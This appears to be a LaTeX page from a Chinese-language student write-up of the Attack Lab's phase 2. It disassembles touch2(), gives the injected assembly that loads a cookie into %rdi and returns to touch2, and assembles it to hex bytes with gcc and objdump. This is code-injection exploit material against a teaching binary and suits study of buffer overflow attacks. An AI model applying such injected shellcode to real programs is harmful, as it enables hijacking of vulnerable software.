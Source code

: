 \documentclass{article}
\begin{document}
\begin{lstlisting}[title = touch2()函数反汇编代码, xleftmargin = 4em,xrightmargin = 4em, aboveskip = 1em, numbers = none]
798 00000000004017ec <touch2>:
799   4017ec:   48 83 ec 08             sub    $0x8,%rsp
800   4017f0:   89 fa                   mov    %edi,%edx
801   4017f2:   c7 05 e0 2c 20 00 02    movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
802   4017f9:   00 00 00
803   4017fc:   3b 3d e2 2c 20 00       cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
804   401802:   75 20                   jne    401824 <touch2+0x38>
805   401804:   be e8 30 40 00          mov    $0x4030e8,%esi
806   401809:   bf 01 00 00 00          mov    $0x1,%edi
807   40180e:   b8 00 00 00 00          mov    $0x0,%eax
808   401813:   e8 d8 f5 ff ff          callq  400df0 <__printf_chk@plt>
809   401818:   bf 02 00 00 00          mov    $0x2,%edi
810   40181d:   e8 6b 04 00 00          callq  401c8d <validate>
811   401822:   eb 1e                   jmp    401842 <touch2+0x56>
812   401824:   be 10 31 40 00          mov    $0x403110,%esi
813   401829:   bf 01 00 00 00          mov    $0x1,%edi
814   40182e:   b8 00 00 00 00          mov    $0x0,%eax
815   401833:   e8 b8 f5 ff ff          callq  400df0 <__printf_chk@plt>
816   401838:   bf 02 00 00 00          mov    $0x2,%edi
817   40183d:   e8 0d 05 00 00          callq  401d4f <fail>
818   401842:   bf 00 00 00 00          mov    $0x0,%edi
819   401847:   e8 f4 f5 ff ff          callq  400e40 <exit@plt>
\end{lstlisting}

因此，我们可以构造如下的汇编攻击代码phase2.s。
\begin{lstlisting}[title = 构造的汇编攻击代码phase2.s, xleftmargin = 4em,xrightmargin = 4em, aboveskip = 1em, numbers = left]
    mov    $0x59b997fa,%rdi
    pushq  $0x4017ec
    retq
  \end{lstlisting}

该代码首先将我们的cookie值0x59b997fa赋给$\%rdi$，令其成为第一个参数。接下来，将函数touch2()的地址压入栈中，接下来在返回时便可以返回至该地址。

使用gcc生成其二进制形式phase2.o，并再次使用objdump进行反汇编，得到其十六进制表示。

\begin{lstlisting}[language=bash]
    linux> gcc -c phase2.s phase2.o
    linux> objdump -d phase2.o > phase2.o.s
\end{lstlisting}

\begin{lstlisting}[title = 构造的汇编攻击代码phase2.s的十六进制表示, xleftmargin = 4em,xrightmargin = 4em, aboveskip = 1em, numbers = none]
 1                                                              
 2 phase2.o：     文件格式 elf64-x86-64
 3
 4
 5 Disassembly of section .text:
 6
 7 0000000000000000 <.text>:
 8    0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
 9    7:   68 ec 17 40 00          pushq  $0x4017ec
10    c:   c3                      retq                                     
\end{lstlisting}
\end{document}
